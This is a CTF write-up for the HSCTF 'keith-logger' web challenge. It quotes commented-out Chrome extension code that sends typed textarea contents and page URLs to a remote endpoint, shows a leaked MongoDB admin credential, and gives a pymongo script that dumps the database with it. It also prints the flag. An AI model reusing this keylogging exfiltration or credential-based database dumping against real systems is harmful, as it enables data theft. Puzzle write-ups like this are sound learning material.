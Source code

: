 ##### This problem was only partially solved by Golems_treat during the CTF
## Problem info
<table>
  <tr>
    <td><strong>Name</strong></td>
    <td>keith-logger</td>
  </tr>
  <tr>
    <td><strong>Category</strong></td>
    <td>Web</td>
  </tr>
  <tr>
    <td><strong>Message</strong></td>
    <td>Written by: dwang<br>
Keith is up to some evil stuff! Can you figure out what he's doing and find the flag?<br>
Note: nothing is actually saved<br>
</td>
  </tr>
  <tr>
    <td><strong>Flags</strong></td>
    <td>hsctf{watch_out_for_keyloggers}</td>
  </tr>
  <tr>
    <td><strong>Files</strong></td>
    <td>extension.crx</td>
  </tr>
  <tr>
    <td><strong>Tags</strong></td>
    <td>Web</td>
  </tr>
  <tr>
    <td><strong>Hints</strong></td>
    <td></td>
  </tr>
</table>

## Solutions during CTF

Using Google Chrome extension `Chrome extension source viewer` and we can see the source code of extension.crx, the files are in [./src/extension](./src/extension)  

In [./src/extension/content.js](./src/extension/content.js), we see interesting comments

```
    /*
    xhr.open(
      "GET",
      "https://keith-logger.web.chal.hsctf.com/api/record?text=" +
        encodeURIComponent($("textarea").val()) +
        "&url=" + encodeURIComponent(window.location.href),
      true
    );*/


    // send a request to admin whenever something is logged, not needed anymore after testing
    /*
    xhr.open(
      "GET",
      "https://keith-logger.web.chal.hsctf.com/api/admin",
      true
    );*/
```

therefore I tried to visit the two mentioned website : https://keith-logger.web.chal.hsctf.com/api/record and https://keith-logger.web.chal.hsctf.com/api/admin

The former one simply feed backs the user providing varibles and the requesting time, for example :

**https://keith-logger.web.chal.hsctf.com/api/record?text=Golem&url=_treat**
```
{'text': 'Golem', 'url': '_treat', 'time': '11:53:17.092162'}
```

However the latter one writes something interesting
**https://keith-logger.web.chal.hsctf.com/api/admin**
```
didn't have time to implement this page yet. use admin:keithkeithkeith@keith-logger-mongodb.web.chal.hsctf.com:27017 for now
```

so now I've got the username and the port
Try to visit the website, the browser bumps out
**http://keith-logger-mongodb.web.chal.hsctf.com:27017/**
```
It looks like you are trying to access MongoDB over HTTP on the native driver port.
```

And that's all I did on this problem during the CTF

## After CTF

Somehow I just stopped at one way away from the flag. There are several ways to access MongoDB, such as the application MongoDB itself...

or we could simply take advantage of its python API  

```
from pymongo import MongoClient
r = MongoClient('mongodb://admin:keithkeithkeith@keith-logger-mongodb.web.chal.hsctf.com', 27017)
cursor = r['database']['collection'].find({})
for document in cursor:
  print document
```

and we could see the flag ```hsctf{watch_out_for_keyloggers}```


## Remarks:

Thanks to the [writeup provided by x0rc3r3rs](http://itsvipul.com/writeups/HSCTF/logger.html), the writeup says: 
> Chrome extension (.crx) files are nothing more than zip files.

That is to say, we could simply unzip the file without the Chrome Extension. 
